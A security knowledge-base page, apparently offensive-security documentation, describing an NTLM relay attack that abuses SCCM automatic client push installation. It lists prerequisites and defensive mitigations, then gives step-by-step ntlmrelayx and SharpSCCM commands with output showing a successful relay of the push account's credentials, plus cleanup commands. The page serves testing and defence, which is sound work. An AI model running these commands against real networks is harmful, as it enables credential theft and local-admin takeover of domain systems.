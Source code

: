 # ELEVATE-2

## Description
NTLM relay via automatic client push installation

## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to HTTPS (TCP/443) on a management point
- Connectivity from the primary site server to SMB (TCP/445) on the relay server
- Primary site server settings:
    - Automatic site-wide client push installation is enabled
    - Automatic site assignment is enabled
    - `Allow connection fallback to NTLM` is enabled for client push installation
    - PKI certificates are not required for client authentication
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

### Relay
- Relay target settings:
    - Connectivity from the relay server to SMB (TCP/445) on the relay target
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictReceivingNTLMTraffic` = `0` or not present
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target

## Summary
When SCCM automatic site assignment and automatic client push installation are enabled, and PKI certificates aren’t required for client authentication, it’s possible to coerce NTLM authentication from the site server's installation and machine accounts to an arbitrary NetBIOS name, FQDN, or IP address, allowing the credentials to be relayed or cracked. This can be done using a low-privileged domain account on any Windows system.

## Impact
Client push installation accounts require local admin privileges to install software on systems in an SCCM site, so it is often possible to relay the credentials and execute actions in the context of a local admin on other SCCM clients in the site. Many organizations use a member of highly privileged groups such as "Domain Admins" for client push installation for the sake of convenience.

If all configured accounts fail when the site server tries to authenticate to a system to install the client, or if no specific installation accounts are configured, the server tries to authenticate with its domain computer account. If SMB is used, [TAKEOVER-1](../../TAKEOVER/TAKEOVER-1/takeover-1_description.md) and [TAKEOVER-2](../../TAKEOVER/TAKEOVER-2/takeover-2_description.md) may be possible. If the WebClient (WebDAV) service is enabled on the site server, it is possible to coerce NTLM authentication via HTTP, allowing relay to LDAP or HTTP to conduct attacks such as Shadow Credentials, Resource-based Constrained Delegation, or AD CS ESC8 to take over the server ([TAKEOVER-3](../../TAKEOVER/TAKEOVER-3) or [TAKEOVER-4](../../TAKEOVER/TAKEOVER-8/)).

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [PREVENT-1: Patch site server with KB15599094](../../../defense-techniques/PREVENT/PREVENT-1/prevent-1_description.md)
- [PREVENT-2: Disable Fallback to NTLM](../../../defense-techniques/PREVENT/PREVENT-2/prevent-2_description.md)
- [PREVENT-5: Disable automatic side-wide client push installation](../../../defense-techniques/PREVENT/PREVENT-5/prevent-5_description.md)
- [PREVENT-8: Require PKI certificates for client authentation](../../../defense-techniques/PREVENT/PREVENT-8/prevent-8_description.md)
- [PREVENT-11: Disable/uninstall WebClient on site servers](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description.md)
- [PREVENT-12: Require SMB signing on site systems](../../../defense-techniques/PREVENT/PREVENT-12/prevent-12_description.md)


## Examples

It is not possible to identify whether automatic site-wide client push installation, automatic site assignment, and `Allow connection fallback to NTLM` are enabled without attempting this attack.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the relay target and the SMB service:

    ```
    # impacket-ntlmrelayx -smb2support -ts -ip <NTLMRELAYX_LISTENER_IP> -t <RELAY_TARGET_IP>
    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-26 15:49:48] [*] Protocol Client MSSQL loaded..
    [2024-02-26 15:49:48] [*] Protocol Client LDAPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client LDAP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client RPC loaded..
    [2024-02-26 15:49:48] [*] Protocol Client HTTPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client HTTP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client IMAPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client IMAP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client SMTP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client SMB loaded..
    [2024-02-26 15:49:48] [*] Protocol Client DCSYNC loaded..
    [2024-02-26 15:49:50] [*] Running in relay mode to single host
    [2024-02-26 15:49:50] [*] Setting up SMB Server
    [2024-02-26 15:49:50] [*] Setting up HTTP Server on port 80
    [2024-02-26 15:49:50] [*] Setting up WCF Server
    [2024-02-26 15:49:50] [*] Setting up RAW Server on port 6666

    [2024-02-26 15:49:50] [*] Servers started, waiting for connections
    ```

2. Use SharpSCCM's `invoke client-push` function to register a new device with the management point and send a DDR to initiate automatic client push installation to your relay server running ntlmrelayx:

    ```
    SharpSCCM.exe invoke client-push -sms <MANAGEMENT_POINT> -sc <SITECODE> -t <NTLMRELAYX_LISTENER_IP>

    [+] Created "ConfigMgr Client Messaging" certificate in memory for device registration and signing/encrypting subsequent messages
    [+] Reusable Base64-encoded certificate:

        308209D2...020207D0

    [+] Discovering local properties for client registration request
    [+] Modifying client registration request properties:
        FQDN: <NTLMRELAYX_LISTENER_IP>
        NetBIOS name: <NTLMRELAYX_LISTENER_IP>
        Site code: <SITECODE>
    [+] Sending HTTP registration request to <MANAGEMENT_POINT>:80
    [+] Received unique SMS client GUID for new device:

        GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C

    [+] Discovering local properties for DDR inventory report
    [+] Modifying DDR and inventory report properties
    [+] Discovered PlatformID: Microsoft Windows NT Server 10.0
    [+] Modified PlatformID: Microsoft Windows NT Workstation 2010.0
    [+] Sending DDR from GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C to MP_DdrEndpoint endpoint on <MANAGEMENT_POINT>:<SITECODE> and requesting client installation on <NTLMRELAYX_LISTENER_IP>
    [+] Completed execution in 00:00:16.1952455
    ```
    **Note**: Sometimes, this command results in a client device record being created, but SCCM does not kick off automatic client push installation right away. Running the same command again should kick off the process.

3. After a few minutes, ntlmrelayx should receive a connection from the configured client push installation account(s) and the site server’s machine account:
    ```
    [2024-02-26 16:19:47] [*] SMBD-Thread-5 (process_request_thread): Received connection from <SITE_SERVER>, attacking target smb://<RELAY_TARGET>
    [2024-02-26 16:19:48] [*] Authenticating against smb://<RELAY_TARGET> as MAYYHEM/CLIENTPUSH SUCCEED
    ```


### Cleanup
It is not possible to remotely delete device records or remove CCRs in the retry queue that are created by heartbeat DDRs without having `Full Administrator` privileges to SCCM. By default, the site will retry client push installation every 60 minutes for 7 days, and if a newly discovered device sits in the client push installation retry queue for more than 24 hours, an error message may be displayed in the console to administrators.

With `Full Administrator` access to SCCM, artifacts created by SharpSCCM that cause client push installation retries can be removed from the site server and database through the ConfigMgr console or using SharpSCCM.

The following command can be used to identify the device's ResourceId:

```
SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Executing WQL query: SELECT ResourceId,Name,SMSUniqueIdentifier FROM SMS_R_System WHERE Name LIKE '%<NTLMRELAYX_LISTENER_IP>%'
-----------------------------------
SMS_R_System
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777236
SMSUniqueIdentifier: GUID:593FA39D-B6C6-4B8F-A4DE-2454503116FC
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777237
SMSUniqueIdentifier: GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
-----------------------------------
```

The following command can be used to remove a device with a specified GUID:

```
SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Deleted device with SMSUniqueIdentifier GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
[+] Completed execution in 00:00:01.8554465
```

## References
- Chris Thompson, [Coercing NTLM Authentication from SCCM Servers](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- Chris Thompson, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM)